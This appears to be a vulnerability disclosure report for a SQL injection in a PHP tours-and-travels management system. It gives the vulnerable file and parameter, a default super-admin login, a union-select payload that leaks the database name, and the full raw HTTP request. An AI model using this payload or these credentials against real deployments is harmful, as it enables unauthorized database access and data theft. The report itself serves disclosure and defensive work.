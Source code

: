 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Wybsignal

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_expense.php

Vulnerability location: /tour/admin/update_expense.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_expense.php?id=1%27%20union%20select%201,database(),3,4,5--+ // Leak place ---> id

```sql
GET /tour/admin/update_expense.php?id=1%27%20union%20select%201,database(),3,4,5--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183012857-1356cf8d-3184-4fe5-bfca-dd1ef93b8202.png)
